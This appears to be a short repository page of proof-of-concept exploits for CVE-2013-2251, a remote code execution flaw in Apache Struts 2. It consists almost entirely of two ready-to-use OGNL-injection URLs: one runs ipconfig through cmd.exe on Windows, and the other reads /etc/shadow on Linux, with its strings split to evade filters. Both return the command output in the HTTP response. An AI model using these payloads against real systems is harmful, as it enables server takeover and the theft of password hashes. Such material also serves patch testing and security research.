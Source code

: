 # PoCs

## CVE-2013-2251 :

### Executing ipconfig (Windows)

``http://10.1.1.206:8080/struts2-blank/example/X.action?redirect:${%23a%3d%28new%20java.lang.ProcessBuilder%28new%20java.lang.String[]{%27cmd.exe%27,%27/c%20ipconfig.exe%27}%29%29.start%28%29,%23b%3d%23a.getInputStream%28%29,%23c%3dnew%20java.io.InputStreamReader%28%23b%29,%23d%3dnew%20java.io.BufferedReader%28%23c%29,%23e%3dnew%20char[50000],%23d.read%28%23e%29,%23matt%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29} ``

Source : http://blog.opensecurityresearch.com/2014/02/attacking-struts-with-cve-2013-2251.html

### Executing cat /etc/shadow (Linux)

``http://10.1.1.206:8080/struts2-blank/example/X.action?redirect:${%23a%3d%28new%20java.lang.ProcessBuilder%28new%20java.lang.String[]{'c'%2b'at','/et'%2b'c/sha'%2b'dow'}%29%29.start%28%29,%23b%3d%23a.getInputStream%28%29,%23c%3dnew%20java.io.InputStreamReader%28%23b%29,%23d%3dnew%20java.io.BufferedReader%28%23c%29,%23e%3dnew%20char[50000],%23d.read%28%23e%29,%23matt%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29}``

## More :

https://waf.ninja/struts2-vulnerability-evolution/

